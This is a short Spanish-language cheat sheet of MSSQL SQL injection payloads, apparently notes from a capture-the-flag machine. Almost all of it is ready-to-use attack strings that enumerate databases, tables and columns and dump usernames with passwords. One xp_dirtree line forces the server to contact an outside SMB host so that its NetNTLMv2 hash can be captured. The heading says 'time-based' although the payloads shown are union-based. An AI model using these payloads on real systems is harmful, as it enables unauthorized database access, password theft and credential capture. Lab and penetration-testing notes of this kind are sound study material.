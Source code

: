 # time-based

# Time-based

## MSSQL

### Enumeración de columnas

```
test'union+select+1,2,3,4,5,6--+-
```

## Enumeración de bases de datos

```
test'union+select+1,name,3,4,5,6+FROM+master..sysdatabases--+-
```

## Extracción de tablas

```
test'union+select+1,name,3,4,5,6+FROM+STREAMIO..sysobjects+WHERE+xtype+%3d+'U'--+-
```

## Extracción de columnas

```
test'union+select+1,name,3,4,5,6+FROM+syscolumns+WHERE+id+%3d+(SELECT+id+FROM+sysobjects+WHERE+name+%3d+'users')--+-
```

## Dumpeo de datos

```
test'union+select+1,concat(username,':',password),3,4,5,6+FROM+users--+-
```

## Obtenciónd de hash NetNTLMv2

```
'; use master; exec xp_dirtree '\\10.10.16.2\shared';--
```